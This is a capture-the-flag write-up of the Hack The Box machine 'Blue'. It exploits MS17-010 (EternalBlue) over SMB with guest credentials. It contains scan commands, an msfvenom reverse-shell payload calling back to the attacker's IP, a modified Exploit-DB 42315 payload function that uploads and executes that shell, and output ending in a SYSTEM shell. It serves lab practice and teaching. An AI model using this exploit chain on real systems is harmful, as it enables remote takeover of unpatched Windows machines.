 ```yaml
---
permalink: /posts/HTB/Blue
title:  "HTB Blue"
author: Luc Kolen
description: "Blue is an easy Windows machine on HTB"
categories:
  - CTF
  - HTB
tags:
  - HTB-Easy
  - SMB
  - MS17-010
---
```

# 10.10.10.40 - Blue

|Hack The Box|Created by|Points|
|---|---|---|
|[Link](https://www.hackthebox.eu/home/machines/profile/51)|[ch4p](https://www.hackthebox.eu/home/users/profile/1)|20|

- [10.10.10.40 - Blue](#10101040---blue)
  - [Open ports](#open-ports)
  - [SMB Vulnerability](#smb-vulnerability)
    - [Changing the exploit script](#changing-the-exploit-script)
  - [TL;DR](#tldr)

## Open ports

```bash
luc@kali:~/HTB/Forest$ nmap -vv --reason -Pn -A --osscan-guess --version-all -p- 10.10.10.40
```

|Port|Service|
|---|---|
tcp/135|msrpc
tcp/139|netbios-ssn
tcp/445|microsoft-ds
tcp/49152|msrpc
tcp/49153|msrpc
tcp/49154|msrpc
tcp/49155|msrpc
tcp/49156|msrpc
tcp/49157|msrpc

## SMB Vulnerability

```bash
luc@kali:~/HTB/Blue$ sudo nmap --script=*smb-vuln* -p139,445 10.10.10.40
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-10 15:59 CEST
Nmap scan report for 10.10.10.40
Host is up (0.013s latency).

PORT    STATE SERVICE
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Host script results:
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND
| smb-vuln-ms17-010:
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx

Nmap done: 1 IP address (1 host up) scanned in 13.36 seconds
```

This machine is vulnerable to `MS17-010` (also known as `EternalBlue`).

### Changing the exploit script

[Exploit-db 42315](https://www.exploit-db.com/exploits/42315) is a Python script that will exploit MS17-010. We do need to make some changes to it.

This script needs an username and password that can connect to SMB.

```bash
luc@kali:~/HTB/Blue$ smbmap -u guest -H 10.10.10.40
[+] IP: 10.10.10.40:445 Name: 10.10.10.40
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    NO ACCESS       Remote IPC
        Share                                                   READ ONLY
        Users                                                   READ ONLY
```

Guest access is allowed so we can use those credentials.

```python
USERNAME = 'guest'
PASSWORD = ''
```

We'll need a payload to be executed, for this we'll use `MSFvenom` to generate a Windows executable.

```bash
luc@kali:~/HTB/Blue$ msfvenom -p windows/shell_reverse_tcp -f exe LHOST=10.10.14.16 LPORT=443 > shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
```

The default payload that will be executed is defined in the `smb_pwn` function.

```python
def smb_pwn(conn, arch):
    smbConn = conn.get_smbconnection()

    print('creating file c:\\pwned.txt on the target')
    tid2 = smbConn.connectTree('C$')
    fid2 = smbConn.createFile(tid2, '/pwned.txt')
    smbConn.closeFile(tid2, fid2)
    smbConn.disconnectTree(tid2)
```

We'll update this payload to make it upload our executable and run it.

```python
def smb_pwn(conn, arch):
        smbConn = conn.get_smbconnection()
        smb_send_file(smbConn, r'/home/luc/HTB/Blue/shell.exe', 'C', '/shell.exe')
        service_exec(conn, r'cmd /c c://shell.exe')
```

```bash
luc@kali:~/HTB/Blue$ python 42315.py 10.10.10.40
Target OS: Windows 7 Professional 7601 Service Pack 1
Using named pipe: samr
Target is 64 bit
Got frag size: 0x10
GROOM_POOL_SIZE: 0x5030
BRIDE_TRANS_SIZE: 0xfa0
CONNECTION: 0xfffffa80039e4670
SESSION: 0xfffff8a0022246a0
FLINK: 0xfffff8a008379048
InParam: 0xfffff8a0027d315c
MID: 0xd02
unexpected alignment, diff: 0x5ba5048
leak failed... try again
CONNECTION: 0xfffffa80039e4670
SESSION: 0xfffff8a0022246a0
FLINK: 0xfffff8a0027e5088
InParam: 0xfffff8a0027df15c
MID: 0xd07
success controlling groom transaction
modify trans1 struct for arbitrary read/write
make this SMB session to be SYSTEM
overwriting session security context
Opening SVCManager on 10.10.10.40.....
Creating service LgbE.....
Starting service LgbE.....
The NETBIOS connection with the remote host timed out.
Removing service LgbE.....
ServiceExec Error on: 10.10.10.40
nca_s_proto_error
Done
```

```bash
luc@kali:~/HTB/Blue$ sudo nc -lnvp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.40.
Ncat: Connection from 10.10.10.40:49164.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
nt authority\system
C:\Windows\system32>cd ../../Users/Administrator/Desktop
C:\Users\Administrator\Desktop>type root.txt
ff548eb7************************
C:\Users\Administrator\Desktop>cd ../../haris/Desktop
C:\Users\haris\Desktop>type user.txt
4c546aea************************
```

## TL;DR

- Machine is vulnerable to MS17-010, using this exploit gives nt authority\system access

